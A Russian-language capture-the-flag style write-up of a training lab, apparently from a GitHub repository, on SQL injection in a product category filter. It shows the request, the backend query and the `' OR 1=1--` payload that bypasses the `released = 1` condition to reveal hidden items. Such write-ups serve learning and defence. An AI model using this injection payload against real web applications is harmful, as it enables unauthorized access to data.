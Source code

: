 # SQLi — WHERE clause: вытаскиваем скрытые товары

**Lab:** SQL injection vulnerability in WHERE clause allowing retrieval of hidden data  
**Уровень:** Apprentice  
**Статус:** Solved

---

## TL;DR

В инпуте категории не фильтруется SQL-инъекция. Через простейший `OR 1=1--` обходим фильтр по `released=1` и видим скрытые товары.

---

## Исходный запрос

При выборе категории фронт отправляет:

```
GET /filter?category=Gifts
```

Бэкенд выполняет:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

---

## Цель

Обойти фильтр `released = 1` и заставить приложение показать скрытые товары.

---

## Эксплуатация

Перехватываем запрос через Burp Suite или просто вручную подставляем:

```
GET /filter?category=Gifts'+OR+1=1--
```

Теперь запрос на бэке превращается в:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

`--` комментит остаток, условие `released = 1` отваливается. Селект возвращает все строки, независимо от флага релиза.

---

## Проверка

Если в ответе появились товары, которых не было до инъекции — уязвимость сработала. Лаба автоматически считается решённой.

---

## Что проверили

- Простая инъекция через GET-параметр
- Уязвимость в прямой подстановке без параметризации
- Фильтр обходится логическим выражением `OR 1=1`

---

## Скрин

![sqli-01-solved](./01.png)

---

## Вывод

Базовая SQL-инъекция, но всё ещё встречается в природе особенно в самописах, админках, устаревших CMS.